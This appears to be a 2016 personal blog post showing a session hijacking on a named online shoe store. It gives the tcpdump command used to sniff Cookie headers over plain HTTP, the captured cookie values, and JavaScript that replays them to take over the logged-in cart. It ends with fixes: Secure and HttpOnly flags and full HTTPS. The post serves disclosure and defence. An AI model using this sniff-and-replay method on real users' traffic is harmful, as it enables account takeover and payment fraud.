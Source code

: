 ```yaml
---
title: Stealing Session Cookies with Tcpdump
layout: post
date: 2016-06-23T21:55:24Z
tags: [netsec, javascript, web]
uuid: 309396d4-fe6e-30a1-1a96-35281b58fb77
---
```


My wife was shopping online for running shoes when she got this
classic Firefox pop-up.

[![](/img/tcpdump/warning-thumb.png)](/img/tcpdump/warning.png)

These days this is usually just a server misconfiguration annoyance.
However, she was logged into an account, which included a virtual
shopping cart and associated credit card payment options, meaning
actual sensitive information would be at risk.

The main culprit was the website's search feature, which wasn't
transmitted over HTTPS. There's an HTTPS version of the search (which
I found manually), but searches aren't directed there. This means it's
also vulnerable to [SSL stripping][sslstrip].

Fortunately Firefox warns about the issue and requires a positive
response before continuing. Neither Chrome nor Internet Explorer get
this right. Both transmit session cookies in the clear without
warning, then subtly mention it after the fact. She may not have even
noticed the problem (and then asked me about it) if not for that
pop-up.

I contacted the website's technical support two weeks ago and they
never responded, nor did they fix any of their issues, so for now you
can [see this all for yourself][rr].

### Finding the session cookies

To prove to myself that this whole situation was really as bad as it
looked, I decided to steal her session cookie and use it to manipulate
her shopping cart. First I hit F12 in her browser to peek at the
network headers. Perhaps nothing important was actually sent in the
clear.

![](/img/tcpdump/headers.png)

The session cookie (red box) was definitely sent in the request. I
only need to catch it on the network. That's an easy job for tcpdump.

    tcpdump -A -l dst www.roadrunnersports.com and dst port 80 | \
        grep "^Cookie: "

This command tells tcpdump to dump selected packet content as ASCII
(`-A`). It also sets output to line-buffered so that I can see packets
as soon as they arrive (`-l`). The filter will only match packets
going out to this website and only on port 80 (HTTP), so I won't see
any extraneous noise (`dst <addr> and dst port <port>`). Finally, I
crudely run that all through grep to see if any cookies fall out.

On the next insecure page load I get this (wrapped here for display)
spilling many times into my terminal:

    Cookie: JSESSIONID=99004F61A4ED162641DC36046AC81EAB.prd_rrs12; visitSo
      urce=Registered; RoadRunnerTestCookie=true; mobify-path=; __cy_d=09A
      78CC1-AF18-40BC-8752-B2372492EDE5; _cybskt=; _cycurrln=; wpCart=0; _
      up=1.2.387590744.1465699388; __distillery=a859d68_771ff435-d359-489a
      -bf1a-1e3dba9b8c10-db57323d1-79769fcf5b1b-fc6c; DYN_USER_ID=16328657
      52; DYN_USER_CONFIRM=575360a28413d508246fae6befe0e1f4

That's a bingo! I massage this into a bit of JavaScript, go to the
store page in my own browser, and dump it in the developer console. I
don't know which cookies are important, but that doesn't matter. I
take them all.

    document.cookie = "Cookie: JSESSIONID=99004F61A4ED162641DC36046A" +
                      "C81EAB.prd_rrs12;";
    document.cookie = "visitSource=Registered";
    document.cookie = "RoadRunnerTestCookie=true";
    document.cookie = "mobify-path=";
    document.cookie = "__cy_d=09A78CC1-AF18-40BC-8752-B2372492EDE5";
    document.cookie = "_cybskt=";
    document.cookie = "_cycurrln=";
    document.cookie = "wpCart=0";
    document.cookie = "_up=1.2.387590744.1465699388";
    document.cookie = "__distillery=a859d68_771ff435-d359-489a-bf1a-" +
                      "1e3dba9b8c10-db57323d1-79769fcf5b1b-fc6c";
    document.cookie = "DYN_USER_ID=1632865752";
    document.cookie = "DYN_USER_CONFIRM=575360a28413d508246fae6befe0e1f4";

Refresh the page and now I'm logged in. I can see what's in the
shopping cart. I can add and remove items. I can checkout and complete
the order. My browser is as genuine as hers.

### How to fix it

The quick and dirty thing to do is set the [Secure][secure] and
[HttpOnly][httponly] flags on all cookies. The first prevents cookies
from being sent in the clear, where a passive observer might see them.
The second prevents the JavaScript from accessing them, since an
active attacker could inject their own JavaScript in the page.
Customers would appear to be logged out on plain HTTP pages, which is
confusing.

However, since this is an online store, there's absolutely no excuse
to be serving *anything* over plain HTTP. This just opens customers up
to downgrade attacks. The long term solution, in addition to the
cookie flags above, is to redirect all HTTP requests to HTTPS and
never serve or request content over HTTP, especially not executable
content like JavaScript.


[rr]: https://www.roadrunnersports.com
[sslstrip]: https://www.youtube.com/watch?v=MFol6IMbZ7Y
[secure]: http://tools.ietf.org/html/rfc6265#section-4.1.2.5
[httponly]: http://tools.ietf.org/html/rfc6265#section-4.1.2.6
